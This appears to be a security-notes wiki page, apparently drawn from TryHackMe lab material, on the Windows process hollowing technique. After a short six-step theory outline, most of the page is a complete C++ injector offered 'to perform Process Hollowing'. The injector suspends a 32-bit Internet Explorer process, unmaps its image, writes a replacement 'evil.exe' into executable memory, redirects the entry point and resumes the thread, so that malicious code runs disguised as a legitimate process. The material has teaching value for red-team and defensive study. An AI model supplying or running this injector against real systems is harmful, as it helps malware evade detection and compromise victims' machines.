

# Process Hollowing

## Theory

Process Hollowing involves injecting malicious code into suspended and hollowed processes in order to evade process-based defenses. Process hollowing is a method of executing arbitrary code in the address space of a separate live process.&#x20;

At a high-level, process hollowing can be broken up into six steps:

1. Create a target process in a suspended state.
2. Open a malicious image.
3. Un-map legitimate code from process memory.
4. Allocate memory locations for malicious code and write each section into the address space.
5. Set an entry point for the malicious code.
6. Take the target process out of a suspended state.

The steps can also be broken down graphically to depict how Windows API calls interact with process memory.

<figure><figcaption><p>Process Hollowing - TryHackMe</p></figcaption></figure>

## 🛠️ Practice



We maye use the following C++ code to perform Process Hollowing.


```cpp
#include <stdio.h>
#include <Windows.h>

#pragma comment(lib, "ntdll.lib")

EXTERN_C NTSTATUS NTAPI NtUnmapViewOfSection(HANDLE, PVOID);

int main() {
    LPSTARTUPINFOA pVictimStartupInfo = new STARTUPINFOA();
        LPPROCESS_INFORMATION pVictimProcessInfo = new PROCESS_INFORMATION();

        // Tested against 32-bit IE.
        LPCSTR victimImage = "C:\\Program Files (x86)\\Internet Explorer\\iexplore.exe";

        // Change this. Also must be 32-bit. Use project settings from the same project.
        LPCSTR replacementImage = "C:\\Users\\THM-Attacker\\Desktop\\Injectors\\evil.exe";

        // Create victim process
        if (!CreateProcessA(
                        0,
                        (LPSTR)victimImage,
                        0,
                        0,
                        0,
                        CREATE_SUSPENDED,
                        0,
                        0,
                        pVictimStartupInfo,
                        pVictimProcessInfo)) {
                printf("[-] Failed to create victim process %i\r\n", GetLastError());
                return 1;
        };

        printf("[+] Created victim process\r\n");
        printf("\t[*] PID %i\r\n", pVictimProcessInfo->dwProcessId);


        // Open replacement executable to place inside victim process
        HANDLE hReplacement = CreateFileA(
                replacementImage,
                GENERIC_READ,
                FILE_SHARE_READ,
                0,
                OPEN_EXISTING,
                0,
                0
        );

        if (hReplacement == INVALID_HANDLE_VALUE) {
                printf("[-] Unable to open replacement executable %i\r\n", GetLastError());
                TerminateProcess(pVictimProcessInfo->hProcess, 1);
                return 1;
        }

        DWORD replacementSize = GetFileSize(
                hReplacement,
                0);
        printf("[+] Replacement executable opened\r\n");
        printf("\t[*] Size %i bytes\r\n", replacementSize);


        // Allocate memory for replacement executable and then load it
        PVOID pReplacementImage = VirtualAlloc(
                0,
                replacementSize,
                MEM_COMMIT | MEM_RESERVE,
                PAGE_READWRITE);

        DWORD totalNumberofBytesRead;

        if (!ReadFile(
                        hReplacement,
                        pReplacementImage,
                        replacementSize,
                        &totalNumberofBytesRead,
                        0)) {
                printf("[-] Unable to read the replacement executable into an image in memory %i\r\n", GetLastError());
                TerminateProcess(pVictimProcessInfo->hProcess, 1);
                return 1;
        }
        CloseHandle(hReplacement);
        printf("[+] Read replacement executable into memory\r\n");
        printf("\t[*] In current process at 0x%08x\r\n", (UINT)pReplacementImage);


        // Obtain context / register contents of victim process's primary thread
        CONTEXT victimContext;
        victimContext.ContextFlags = CONTEXT_FULL;
        GetThreadContext(pVictimProcessInfo->hThread,
                &victimContext);
        printf("[+] Obtained context from victim process's primary thread\r\n");
        printf("\t[*] Victim PEB address / EBX = 0x%08x\r\n", (UINT)victimContext.Ebx);
        printf("\t[*] Victim entry point / EAX = 0x%08x\r\n", (UINT)victimContext.Eax);


        // Get base address of the victim executable
        PVOID pVictimImageBaseAddress;
        ReadProcessMemory(
                pVictimProcessInfo->hProcess,
                (PVOID)(victimContext.Ebx + 8),
                &pVictimImageBaseAddress,
                sizeof(PVOID),
                0);
        printf("[+] Extracted image base address of victim process\r\n");
        printf("\t[*] Address: 0x%08x\r\n", (UINT)pVictimImageBaseAddress);


        // Unmap executable image from victim process
        DWORD dwResult = NtUnmapViewOfSection(
                pVictimProcessInfo->hProcess,
                pVictimImageBaseAddress);
        if (dwResult) {
                printf("[-] Error unmapping section in victim process\r\n");
                TerminateProcess(pVictimProcessInfo->hProcess, 1);
                return 1;
        }

        printf("[+] Hollowed out victim executable via NtUnmapViewOfSection\r\n");
        printf("\t[*] Utilized base address of 0x%08x\r\n", (UINT)pVictimImageBaseAddress);


        // Allocate memory for the replacement image in the remote process
        PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pReplacementImage;
        PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pReplacementImage + pDOSHeader->e_lfanew);
        DWORD replacementImageBaseAddress = pNTHeaders->OptionalHeader.ImageBase;
        DWORD sizeOfReplacementImage = pNTHeaders->OptionalHeader.SizeOfImage;

        printf("[+] Replacement image metadata extracted\r\n");
        printf("\t[*] replacementImageBaseAddress = 0x%08x\r\n", (UINT)replacementImageBaseAddress);
        printf("\t[*] Replacement process entry point = 0x%08x\r\n", (UINT)pNTHeaders->OptionalHeader.AddressOfEntryPoint);

        PVOID pVictimHollowedAllocation = VirtualAllocEx(
                pVictimProcessInfo->hProcess,
                (PVOID)pVictimImageBaseAddress,
                sizeOfReplacementImage,
                MEM_COMMIT | MEM_RESERVE,
                PAGE_EXECUTE_READWRITE);
        if (!pVictimHollowedAllocation) {
                printf("[-] Unable to allocate memory in victim process %i\r\n", GetLastError());
                TerminateProcess(pVictimProcessInfo->hProcess, 1);
                return 1;
        }
        printf("[+] Allocated memory in victim process\r\n");
        printf("\t[*] pVictimHollowedAllocation = 0x%08x\r\n", (UINT)pVictimHollowedAllocation);


        // Write replacement process headers into victim process
        WriteProcessMemory(
                pVictimProcessInfo->hProcess,
                (PVOID)pVictimImageBaseAddress,
                pReplacementImage,
                pNTHeaders->OptionalHeader.SizeOfHeaders,
                0);
        printf("\t[*] Headers written into victim process\r\n");

        // Write replacement process sections into victim process
        for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) {
                PIMAGE_SECTION_HEADER pSectionHeader =
                        (PIMAGE_SECTION_HEADER)((LPBYTE)pReplacementImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS)
                                + (i * sizeof(IMAGE_SECTION_HEADER)));
                WriteProcessMemory(pVictimProcessInfo->hProcess,
                        (PVOID)((LPBYTE)pVictimHollowedAllocation + pSectionHeader->VirtualAddress),
                        (PVOID)((LPBYTE)pReplacementImage + pSectionHeader->PointerToRawData),
                        pSectionHeader->SizeOfRawData,
                        0);
                printf("\t[*] Section %s written into victim process at 0x%08x\r\n", pSectionHeader->Name, (UINT)pVictimHollowedAllocation + pSectionHeader->VirtualAddress);
                printf("\t\t[*] Replacement section header virtual address: 0x%08x\r\n", (UINT)pSectionHeader->VirtualAddress);
                printf("\t\t[*] Replacement section header pointer to raw data: 0x%08x\r\n", (UINT)pSectionHeader->PointerToRawData);
        }


        // Set victim process entry point to replacement image's entry point - change EAX
        victimContext.Eax = (SIZE_T)((LPBYTE)pVictimHollowedAllocation + pNTHeaders->OptionalHeader.AddressOfEntryPoint);
        SetThreadContext(
                pVictimProcessInfo->hThread,
                &victimContext);
        printf("[+] Victim process entry point set to replacement image entry point in EAX register\n");
        printf("\t[*] Value is 0x%08x\r\n", (UINT)pVictimHollowedAllocation + pNTHeaders->OptionalHeader.AddressOfEntryPoint);


        printf("[+] Resuming victim process primary thread...\n");
        ResumeThread(pVictimProcessInfo->hThread);

        printf("[+] Cleaning up\n");
        CloseHandle(pVictimProcessInfo->hThread);
        CloseHandle(pVictimProcessInfo->hProcess);
        VirtualFree(pReplacementImage, 0, MEM_RELEASE);

        return 0;
} 

```




## Resources







